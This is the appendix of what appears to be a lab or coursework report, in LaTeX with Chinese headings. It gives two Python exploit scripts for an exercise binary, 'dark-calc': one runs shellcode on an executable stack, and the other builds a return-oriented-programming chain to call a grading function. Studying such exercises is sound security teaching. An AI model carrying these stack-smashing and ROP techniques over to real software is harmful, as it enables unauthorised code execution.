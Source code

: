 \documentclass[UTF8,a4paper,12pt,fontset=windows]{ctexart}
\newcommand{\code}[1]{\texttt{#1}}
\begin{document}
\subsection{任务二的脚本 \texorpdfstring{\code{payload\_dark.py}}{payload\_dark.py}}
\label{app:two}
\begin{lstlisting}
#!/usr/bin/env python3
"""Execute a 14-byte stub on dark-calc's fixed executable stack."""
import struct
import sys

# dark-calc's init_fixed_stack() maps 0x721000000000 .. +0x802000 as RWX with
# PROT_NONE guard pages at both ends, so expression[] always lands at
# 0x721000800fd0 (only 0x30 bytes before the upper guard page) and is
# executable.
#
# grade_eval() itself uses [rbp-0x4] = rbp-0x4 = buffer+0x0c, i.e. it clobbers
# the last 4 bytes of the stub while it runs, so everything the stub needs
# after grade_eval() returns must already be on the stack.  The stub therefore
# pushes its continuation address *before* calling grade_eval:
#
#   push 4; pop rdi; push __wrap_main; push grade_eval; ret
#
# grade_eval(4) prints the message, then returns into __wrap_main, which sets
# the stack back to fixed_stack_top and calls main() again; the second input()
# sees EOF, prints the answer and calls exit(0), so the process ends cleanly.
stub = bytes.fromhex("6a045f" + "680e1c4000" + "68871a4000" + "c3")
payload = stub + b"B" * (0x18 - len(stub)) + struct.pack("<Q", 0x721000800FD0)
assert len(stub) == 14 and len(payload) == 0x20
assert b"\n" not in payload
sys.stdout.buffer.write(payload)
\end{lstlisting}

\subsection{任务三的脚本 \texorpdfstring{\code{payload\_rop.py}}{payload\_rop.py}}
\label{app:three}
\begin{lstlisting}
#!/usr/bin/env python3
"""Call grade_eval(4) on dark-calc-nx with a return-oriented chain."""
import struct
import sys


def address(value):
    return struct.pack("<Q", value)


pop_rdi_ret = 0x401A33
ret = 0x401A34
grade_eval = 0x401978
exit_plt = 0x4016E0

# pop rdi; 4; ret; grade_eval(4); pop rdi; 4; ret; exit(4)
# The extra `ret` instructions restore the SysV AMD64 stack alignment, and the
# second pop rdi makes the exit status deterministic instead of inheriting the
# leftover rdi from grade_eval's fflush() call.
chain = [pop_rdi_ret, 4, ret, grade_eval,
         pop_rdi_ret, 4, ret, exit_plt, 0]
payload = b"A" * 16 + b"B" * 8 + b"".join(map(address, chain))
assert b"\n" not in payload
sys.stdout.buffer.write(payload)
\end{lstlisting}
\end{document}
